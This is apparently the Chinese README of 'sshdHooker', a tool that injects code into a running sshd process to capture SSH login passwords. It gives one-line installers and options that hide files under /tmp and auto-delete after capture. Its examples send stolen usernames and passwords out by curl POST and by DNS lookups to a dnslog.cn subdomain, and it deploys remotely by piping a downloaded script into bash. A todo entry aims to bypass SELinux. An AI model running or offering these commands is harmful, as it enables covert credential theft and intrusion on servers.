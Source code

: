 # what's this?

注入SSHD之后就能记录下密码或者做其他操作。


需要关闭selinux

[English](readme.md) | 中文文档

# how to use

## auto installer
密码记录器一键安装，仅暂时支持x64/aarch

直接执行命令
```
bash install.sh or bash install_aarch64.sh
```

直接运行后ssh密码登录，记录地址为/tmp/.password.txt，默认so地址为/tmp/hello.so，默认注入器名字为/tmp/.i


其他参数：
```
    -e   修改so文件的路径，默认/tmp/hello.so
    -o   修改注入器的路径，默认/tmp/.i.
    -m   修改mode默认值为0，输出到文件，默认记录地址为/tmp/.password.txt ，如果值为1，则会改为命令行模式
    -p   修改payload，默认值为/tmp/.password.txt，如果mode值为1，则会使用snsprintf来格式化命令并且输出，请确保字符串中包含两个%s，用于格式化用户名和密码
    -d   自动删除，设置为anyone则抓到密码后立刻删除，否则则抓取到设置的指定用户名后删除
    -l   指定libc路径，默认寻址是寻找libc-xxxx.so和libc.so.x的方案，但是不排除会有其他奇奇怪怪的libc名称，所以添加了手动指定功能，详情可以查看/proc/pid/maps里找到libc名字
```
## 例子

https发送密码
```
bash install.sh -p "curl -X POST -d 'username=%s\&password=%s' http://127.0.0.1" -m 1
```

dns发送密码并且自动删除（请确保你的命令是不堵塞的，因为本程序的实现用的是system是当线程，命令如果堵塞将会导致ssh登录线程一并堵塞）
```
bash install.sh -p 'ping `echo %s-%s|xxd -ps`.k9lovy.dnslog.cn -c 1' -m 1 -d anyone
```

远程快速自动部署并自动删除
```
curl -L https://github.com/9bie/sshdHooker/releases/download/1.0.2/sshdHooker.sh | bash -s -- -d anyone
```

## debug

执行
```

gcc -shared inject_got.c -ldl -fPIC -o test2.so -std=c99

mv test2.so /tmp/hello.so

gcc sshdHooker.c shellcode.s -g -o inject -ldl -lpthread

sudo ./inject sshd_pid
```

然后等待用户连接SSH并且登录成功，密码保存于/tmp/.password.txt

# todo

 - 增加x86/arm支持
 - bypass SELINUX